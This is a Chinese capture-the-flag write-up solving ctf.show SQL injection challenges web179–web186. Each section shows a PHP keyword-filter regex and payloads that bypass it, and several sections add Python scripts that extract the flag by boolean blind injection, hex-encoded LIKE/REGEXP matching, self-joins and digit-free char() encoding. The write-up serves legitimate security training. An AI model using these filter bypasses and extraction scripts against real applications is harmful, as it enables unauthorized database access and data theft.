









### web179

> 开始过滤

有过滤的字符型注入，和上上题差不多，增加了对  `%09 %0a %0b %0d`  的过滤，`%0c`  可以用。

`1'%0cor%0c1=1%23`

```python
payload = "1' union select 1,2,(select password from ctfshow_user where username = 'flag') %23"

def bypass(s: str):
    return s.replace(" ", "%0c")

print(bypass(payload))
```

`1'%0cunion%0cselect%0c1,2,(select%0cpassword%0cfrom%0cctfshow_user%0cwhere%0cusername%0c=%0c'flag')%0c%23`



### web180

有过滤的字符型注入，相比上题增加了对  `#`(`%23`) 的过滤，这里使用  `--`(--后加个空格) 绕过。

```python
payload = "1' union select 1,2,(select password from ctfshow_user where username = 'flag') -- "

def bypass(s: str):
    return s.replace(" ", "%0c")

print(bypass(payload))
```

`1'%0cunion%0cselect%0c1,2,(select%0cpassword%0cfrom%0cctfshow_user%0cwhere%0cusername%0c=%0c'flag')%0c--%0c`



### web181

此次给出过滤 waf

```
//对传入的参数进行了过滤
function waf($str){
	return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
}
```

由前几题或爆破可得，flag 所在记录的 id 列的值为 26，故构造  
payload: `0'or(id=26)and'1`  
and 的优先级比 or 要高，会执行  
`select id,username,password from ctfshow_user where username != 'flag' and id = '0'or(id=26)and'1' limit 1;`

`-1'%0cor%0cusername='flag`

就可以绕过过滤




### web182

同样已知过滤

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str);
  }
```

select 不能用，就只能选择布尔盲注或者时间盲注了。

这题的解法是在已知表名的情况下实现的，再结合模糊匹配 like 或者正则匹配 regexp。  
写脚本前先测试一下语句是否能正常执行，可以的话，再写到脚本里。

因为每次查询记录总数都是 1 条，就是我们要找的 flag，所以页面固定会出现`$user_count = 1;`，可以用布尔盲注。

上一题 payload 依旧可以
`0'or(id=26)and'1`



### web183

查询语句

```
//拼接sql语句查找指定ID用户
  $sql = "select count(pass) from ".$_POST['tableName'].";";
```

过滤了更多，返回结果只有记录的总数

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }
```

`0'or(id=26)and'1`

脚本

```python
import string

import requests

url = "http://46178b23-3c19-4184-b151-b6164563d16b.challenge.ctf.show/select-waf.php"
payload = "(ctfshow_user)where(pass)like(0x{})"
true_flag = "$user_count = 1;"


def make_payload(has: str) -> str:
    return payload.format((has + "%").encode().hex())


def valid_payload(p: str) -> bool:
    data = {
        "tableName": p
    }
    response = requests.post(url, data=data)
    return true_flag in response.text


flag = "ctf" # 这里注意表中用 like 'ctf%' 只有一个结果，要提前给出这一小段 flag 头避免其他记录干扰匹配
while True:
    for c in "{}-" + string.digits + string.ascii_lowercase:
        pd = flag+c
        print(f"\r[*] trying {pd}", end="")
        if valid_payload(make_payload(pd)):
            flag += c
            print(f"\r[*] flag: {flag}")
            break
    if flag[-1] == "}":
        break
```



### web184

查询语句

```
//拼接sql语句查找指定ID用户
  $sql = "select count(pass) from ".$_POST['tableName'].";";
```

```
//对传入的参数进行了过滤
function waf($str){
	return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
	}
```

与上题相比，主要是多了`where`

可以用 right/left/inner join 代替，对自己的表进行自连接

更改脚本 where

```python
import string

import requests

url = "http://b2078e5a-1ef7-471c-8503-7e1a14fe4772.challenge.ctf.show/select-waf.php"
payload = "ctfshow_user as a right join ctfshow_user as b on b.pass regexp(0x{})"
true_flag = "$user_count = 43;"


def make_payload(has: str) -> str:
    return payload.format((has).encode().hex())


def valid_payload(p: str) -> bool:
    data = {
        "tableName": p
    }
    response = requests.post(url, data=data)
    return true_flag in response.text


flag = "ctf" # 这里注意表中用 regexp('ctf') 只有一个结果，要提前给出这一小段 flag 头避免其他记录干扰匹配
while True:
    for c in "{}-" + string.digits + string.ascii_lowercase:
        pd = flag+c
        print(f"\r[*] trying {pd}", end="")
        if valid_payload(make_payload(pd)):
            flag += c
            print(f"\r[*] flag: {flag}")
            break
    if flag[-1] == "}":
        break
```



### web185

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

有过滤的表名位置注入，这次过滤了所有数字，需要自己构造数字，char 转换数组成字符串。

这里注意`true+true=2`，可以不断累加构成数字



脚本：

```python
#author:yu22x
import requests
import string
url="http://b2078e5a-1ef7-471c-8503-7e1a14fe4772.challenge.ctf.show/select-waf.php"
s='0123456789abcdefghijklmnopqrstuvwxyz-{}'
def convert(strs):
  t='concat('
  for s in strs:
    t+= 'char(true'+'+true'*(ord(s)-1)+'),'
  return t[:-1]+")"
flag=''
for i in range(1,45):
  print(i)
  for j in s:
    d = convert(f'^ctfshow{flag+j}')
    data={
    'tableName':f' ctfshow_user group by pass having pass regexp({d})'
    }
    #print(data)
    r=requests.post(url,data=data)
    #print(r.text)
    if("user_count = 1"  in r.text):
      flag+=j
      print(flag)
      if j=='}':
        exit(0)
      break
```



### web186

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\<|\>|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

过滤了更多

直接用上题脚本，不影响
